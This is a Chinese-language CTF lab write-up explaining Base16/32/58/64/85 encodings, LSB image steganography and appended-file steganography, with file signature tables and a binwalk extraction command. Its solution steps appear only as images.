

## Misc Lab 0

### Base 系列编码

#### 什么是 Base 系列编码？

- **核心本质**：它不是加密算法，而是一种编码机制（或者说"文本数据表示法"）。
- **为什么需要它？** 计算机中很多传输通道（如邮件、早期的网页、URL）只支持传输纯文本（可视的 ASCII 字符）。如果直接传输图片、视频或复杂的二进制字节码，有些特殊字符（如换行符、控制字符）可能会被路由器或协议误吞或篡改。
- **解决方案**：把任意的二进制数据（包含不可见字符），映射到一组安全的、人类可见的字符集（如英文字母、数字）中进行传输。

#### 核心分类

| 编码名称 | 字符集大小 | 包含的典型字符 | 末尾特征 | 常见应用场景 |
| :--- | :--- | :--- | :--- | :--- |
| **Base16** | 16 | `0-9`, `A-F` (即十六进制) | 无 | MD5/SHA 摘要结果展示、真彩颜色值 |
| **Base32** | 32 | `A-Z`, `2-7` | 经常有 `=` | 某些特定的密钥交换、BT 种子磁力链接 |
| **Base58** | 58 | 去掉了易混淆的 `0`, `O`, `I`, `l` 以及 `+`, `/` | 无 `=` | **区块链/比特币（Bitcoin）** 地址 |
| **Base64** | 64 | `A-Z`, `a-z`, `0-9`, `+`, `/` | 常见 `=` 或 `==` | 网页图片内嵌、邮件附件传输 (MIME) |
| **URL Base64** | 64 | 把 `+` 和 `/` 替换为了 `-` 和 `_` | 通常去掉 `=` | 把参数安全地放在 URL 链接中传输 |
| **Base85/Ascii85**| 85 | 包含大量英文标点符号 (如 `;`, `<`, `!`, `@`) | 视变体而定 | PDF文件压缩、Git 内部数据存储 |

> 根据上述表格中的特征可以判断出每个步骤用哪种 base 编码形式进行解码~

#### 核心原理（以 Base64 为例）

1. **二进制分组**：计算机中 1 个字节 = 8 个比特（bit）。Base64 每次取 **3个字节**（即 $3 \times 8 = 24$ 个比特）。
2. **重新切分**：将这 24 个比特重新切分成 **4个小组**，每组 6 个比特（$4 \times 6 = 24$）。
3. **查表映射**：6 个比特的取值范围是 $0 \sim 63$（共 $2^6 = 64$ 个可能）。刚好对应 Base64 的字符表：`A-Z`、`a-z`、`0-9`、`+`、`/`。
4. **末尾补位（Padding）**：如果最后一组数据不够 3 个字节怎么办？
    - 剩 2 字节：转成 3 个 Base64 字符，末尾补 1 个 `=`
    - 剩 1 字节：转成 2 个 Base64 字符，末尾补 2 个 `=`
    - *这也是为什么Base64经常结尾有 `=` 的原因。*

> **空间代价**：因为 3 字节变成了 4 字节，所以 Base64 编码后，**文件体积会膨胀约 33%**。

#### Challenge 1 解题



### LSB 隐写 & 文件附加隐写

#### Challenge 2 解题







> 上述破译图片来自 https://www.aperisolve.com/

#### LSB 隐写原理

**LSB 隐写**（最低有效位隐写）是一种将秘密信息藏在图片像素里的技术。它的最大特点是**肉眼不可识别**但是**不抗压缩**。

1. **核心原理：改动"最不重要"的那一位**
    - 计算机用 **8位二进制**（如 `10110100`）来表示红、绿、蓝通道的颜色深浅（$0 \sim 255$）。
    - **最低有效位（LSB）** 指的是二进制的**最后一位**。
    - 如果把最后一位从 `0` 改成 `1`，颜色的数值仅仅改变了 1。这种极其微弱的色差，人类肉眼绝对无法察觉。

2. **隐写与提取过程**
    - **隐写过程**：把秘密信息拆成二进制的 `0` 和 `1`，依次替换掉图片中每个像素通道的最后一位（即变成黑色或白色）。
    - **读取过程**：用工具（如 StegSolve）把图片所有像素通道的最后一位依次提取出来，重新组合，就能拼回原始的秘密文本。

#### 文件附加隐写



> 依旧来自 https://www.aperisolve.com/

**文件附加隐写**（文件拼接）是指将秘密文本或文件，**强行粘贴在正常图片的数据末尾**。因为操作系统读到图片的"结束标记"就会停止渲染，所以多余的数据在肉眼下是完全隐形的。

##### 常见文件头/尾

| 图片格式 | 常见文件头 | 常见文件尾 |
| :--- | :--- | :--- |
| **PNG** | `89 50 4E 47 ...` (包含 `PNG`) | **`49 45 4E 44 AE 42 60 82` (即 `IEND`)** |
| **JPG** | `FF D8 FF` | **`FF D9`** |
| **ZIP** | `50 4B 03 04` (即 `PK`) | `50 4B 05 06` |

##### 提取方法

1. **尾部观察**：直接用记事本、十六进制编辑器（如 010 Editor）打开图片，拉到**最底部**。在标准的结束标记（如 `IEND`）后面，经常能直接看到 Flag。
2. **自动化分离**：如果文件尾部藏的不是文本，而是另一个压缩包，在 Linux 下直接使用：
    ```
    binwalk -e image.png
    ```
